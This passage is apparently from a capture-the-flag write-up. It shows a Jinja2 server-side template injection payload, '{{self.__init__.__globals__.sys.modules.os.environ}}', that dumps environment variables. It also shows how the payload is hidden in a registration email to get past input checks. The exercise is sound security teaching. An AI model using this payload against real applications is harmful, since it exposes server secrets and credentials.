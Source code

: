 and if we test it locally, it indeed works

```python
In [71]: Template("My name is {{ self.__init__.__globals__.sys.modules.os.environ }} ").render()
Out[71]: "My name is environ({'SHELL': '/bin/bash', 'SESSION_MANAGER': 'local/ctf-box:@/tmp/.ICE-unix/2184,unix/ctf-box:/tmp/.ICE-unix/2184', 'PYENV_HOOK_PATH': ...}) "
```

### Grabbing the flag

So, the email will be `{{self.__init__.__globals__.sys.modules.os.environ}}@fane.com`. The first part is 52 characters long, so it passes the length check, and also passes the regex check. Let's try that

![register-malicious.png](writeup-resources/register-malicious.png)

And we have successfully registered! Let's login and check our `/profile` vulnerable page.

<img src="writeup-resources/flag.png" alt="flag" height=400>
